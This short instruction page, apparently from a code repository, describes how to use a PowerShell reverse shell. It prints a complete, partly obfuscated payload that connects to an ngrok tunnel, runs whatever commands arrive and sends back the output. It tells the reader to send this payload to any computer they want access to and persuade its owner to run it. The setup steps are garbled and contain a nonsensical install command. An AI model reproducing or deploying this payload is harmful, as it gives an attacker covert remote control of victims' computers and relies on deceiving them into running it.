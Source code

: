install and setup chocolately on your pc 
Run this python code first (server.py)
then open cmd and write tcp install chocolately you will get a 5 digit code
put that code in this pay load 
$client = New-O'b'ject System.Net.Sockets.TCPClient('0.tcp.in.ngrok.io',**YOUR_CODE**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
then send this to any other computer you want to get access of 
ask him to run that payload on powershell
after that check output of server.py
